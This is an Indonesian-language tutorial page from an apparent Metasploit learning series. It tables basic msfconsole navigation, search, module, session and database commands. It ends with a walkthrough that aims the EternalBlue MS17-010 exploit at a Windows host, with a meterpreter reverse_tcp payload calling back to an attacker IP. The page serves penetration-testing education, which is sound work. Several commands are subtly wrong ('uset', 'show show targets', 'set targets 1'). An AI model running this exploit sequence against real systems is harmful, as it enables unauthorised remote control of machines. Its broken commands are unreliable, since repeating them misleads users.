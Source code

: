 <p align="left"><b>Sebelumnya</b>: <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Antarmuka%20Metasploit%20Framework.md">Antarmuka Metasploit Framework</a></p>

# Perintah Dasar MSFconsole

## Perintah Navigasi dan Bantuan

| Perintah | Deskripsi |
|:--:|:--:|
| `help` | Menampilkan daftar perintah yang tersedia |
| `help [perintah]` | Menampilkan bantuan untuk perintah tertentu |
| `back` | Kembali dari konteks modul ke prompt utama |
| `exit` | Keluar dari MSFconsole |
| `version` | Menampilkan versi Metasploit Framework |

## Perintah Pencarian dan Informasi

| Perintah | Deskripsi |
|:--:|:--:|
| `search [kata kunci]` | Mencari modul berdasarkan kata kunci |
| `info [modul]` | Menampilkan informasi tentang modul tertentu |
| `show exploits` | Menampilkan semua modul exploit yang tersedia |
| `show auxiliary` | Menampilkan semua modul auxiliary yang tersedia |
| `show payloads` | Menampilkan semua payload yang tersedia |
| `show options` | Menampilkan opsi yang tersedia untuk modul yang dipilih |

## Penggunaan Modul

| Perintah | Deskripsi |
|:--:|:--:|
| `use [path modul]` | Memilih modul untuk digunakan |
| `set [opsi] [nilai]` | Mengatur nilai untuk opsi tertentu |
| `setg [opsi] [nilai]` | Mengatur nilai global untuk opsi tertentu |
| `uset [opsi]` | Menghapus nilai opsi |
| `check` | Memeriksa apakah target rentan (tidak semua modul mendukung) |
| `run` atau `exploit` | Menjalankan modul yang dipilih |

## Contoh Penggunaan Dasar

### Mencari Modul

```
search type:exploit platform:windows remote
```

Untuk pencarian lebih spesifik

```
search cve:2021 type:exploit
```

### Menggunakan Modul

```
# Menggunakan modul EternalBlue (MS17-010)
use exploit/windows/smb/ms17_010_eternalblue

# Menampilkan opsi yang ada di modul ms17_010_eternalblue
show options

# Menggunakan payload windows/x64/meterpreter/reverse_tcp
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Setting alamat IP target yang ingin dieksploitasi
set RHOSTS 192.168.1.10

# Setting port SMB dari target (default: 445)
set RPORT 445

# Setting alamat IP lokal (attacker) yang akan menerima koneksi reverse
set LHOST 192.168.1.5

# Setting port lokal untuk koneksi reverse
set LPORT 4444

# Menampilkan daftar target yang didukung oleh modul
show show targets

# Memilih target yang sesuai dari daftar (misal: 1)
set targets 1

# Menjalankan eksploitasi
exploit
```

## Fitur Tambahan MSFconsole

### Mengelola Sesi 

| Perintah | Deskripsi |
|:--:|:--:|
| `sessions -l` | Menampilkan semua sesi yang aktif |
| `sessions -i [id]` | Berinteraksi dengan sesi tertentu |
| `sessions -k [id]` | Menghentikan sesi tertentu |

### Manajemen Database

| Perintah | Deskripsi |
|:--:|:--:|
| `db_status` | Memeriksa status koneksi database |
| `workspace` | Menampilkan dan mengelola workspace | 
| `hosts` | Menampilkan host yang tersimpan di database |
| `services` | Menampilkan layanan yang tersimpan di database |
| `vulns` | Menampilkan kerentanan yang terdeteksi |

Itu dia perintah dasar MSFconsole.

<p align="right"><b>Selanjutnya</b>: <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Jenis-Jenis%20Modul%20di%20Metasploit%20Framework.md">Jenis-Jenis Modul di Metasploit Framework</a></p>
